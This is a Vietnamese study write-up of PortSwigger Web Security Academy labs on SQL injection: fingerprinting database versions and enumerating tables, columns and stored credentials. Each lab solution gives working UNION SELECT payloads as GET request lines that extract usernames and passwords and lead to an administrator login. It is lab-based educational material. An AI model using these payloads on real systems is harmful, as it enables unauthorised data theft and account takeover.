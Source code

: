 1. Lý thuyết<br>
- ngôn ngữ SQL đc triển khai theo cách giống nhau trên các nền tảng database phổ biến, nhiều cách để pháp hiện và khai thác vul tiêm SQL hoạt động giống nhau trên các loại database khác nhau
- tuy nhiên vẫn tồn tại sự khác nhau (đọc thêm: SQL injection cheat sheet)
- sau khi xác định vul tiêm SQL, lấy in4 từ database là hữu ích để khai thác vul<br>

I. Querying the database type and version<br>
1. Lý thuyết<br>
+ Microsoft, MySQL	SELECT @@version
+ Oracle	SELECT * FROM v$version
+ PostgreSQL	SELECT version()<br>

2. Lab: SQL injection attack, querying the database type and version on Oracle<br>
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.<br>
https://portswigger.net/academy/labs/launch/974bd9df06352f8b59c679f854a5bc7e3db6c7fb83f72db653509252a6d47e28?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-querying-database-version-oracle<br>

3. Giải<br>
+ 2 cột đều thỏa mãn
+ lấy in4 version trên Oracle -> cột BANNER
+ [https://0a16005104b45b0a8096e9dc000c0001.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%20%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--](https://0a1e00a7041913a380a8c6e800ea00b2.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--)
+ NULL dùng để đảm bảo số cột<br>

4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft<br>
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.<br>

5. Giải<br>
+ trong MySQL comment cần (#) or (--) đi kèm khoảng trắng
+ dùng burpsuite chặn truy cập và chỉnh sửa<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/f382f7e1-6418-4579-94a5-433aacb0c088)<br>

-> phát hiện 2 cột can tạo string<br>
+ GET /filter?category=Accessories 'UNION+SELECT+@@version,+NULL<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/cbb334ed-0fc2-4f67-a415-1908ec0110ad)<br>

II. Listing the contents of the database<br>
1. Lý thuyết<br>
+ SELECT * FROM information_schema.tables -> xem danh sách bảng<br>
-> có các cột: TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE<br>
+ SELECT * FROM information_schema.columns WHERE table_name = 'Users' -> xem danh sách các cột của bảng có tên Users<br>
-> có các cột: TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE<br>

2. Lab: SQL injection attack, listing the database contents on non-Oracle databases<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned
in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/81986add1fa6ec438867539cc2f562f01dcf9faf6a0b82766269c3dbeef30b00?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-non-oracle<br>

3. Giải<br>
+ tìm ra số cột có là 2 cột và cả 2 cột can tạo string
+ liệt kê tên table trong database: GET /filter?category=Gifts 'UNION SELECT table_name,NULL FROM information_schema.tables-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/7bd412c2-b6fb-4744-a884-3da828b8fedb)<br>

+ tìm ra đc bảng: users_fwaatj -> tìm các cột trong bảng này
+ truy vấn: GET /filter?category=Gifts 'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_fwaatj'<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/225db2b5-68e1-4794-8f08-02fc6886cac4)<br>

+ lấy username, password từ bảng này: GET /filter?category=Gifts 'UNION SELECT password_mduiwb,username_flbaww FROM users_fwaatj-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/06c99c83-2cd2-485a-9bc9-c5d3b8d6083c)<br>

+ login tài khoản administrator<br>

III. Listing the contents of an Oracle database<br>
1. Lý thuyết<br>
+ liệt kê all bảng: SELECT * FROM all_tables
+ liệt kê cột trong bảng: SELECT * FROM all_tab_columns WHERE table_name = 'USERS'<br>

2. Lab: SQL injection attack, listing the database contents on Oracle<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned
in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to
determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/de4256d42cc604a2a3f7e792c5fff88df1712f1537cd506ed2537efedbd4c665?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-oracle<br>

3. Giải<br>
+ tìm số cột có và can tạo string: GET /filter?category=Corporate+gifts 'UNION+SELECT+'a','a' FROM dual-- <br>
-> có 2 cột<br>
+ liệt kê all bảng: GET /filter?category=Corporate+gifts 'UNION SELECT table_name,NULL FROM all_tables--<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8ead9a62-f64a-4580-9e1e-221e3034463c)<br>

+ tìm ra đc bảng: USERS_DFIRUZ<br>
-> tìm các cột trong bảng: GET /filter?category=Corporate+gifts 'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_DFIRUZ'-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/a79ed34f-424c-491f-a852-a14ad36bf1f1)<br>

+ lấy in4 từ các cột: GET /filter?category=Corporate+gifts 'UNION SELECT PASSWORD_NQTQDP,USERNAME_LKBOQS FROM  USERS_DFIRUZ-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/0bc7ddd6-8141-4eda-9184-7abf2d486122)<br>

+ login tài khoản administrator<br>






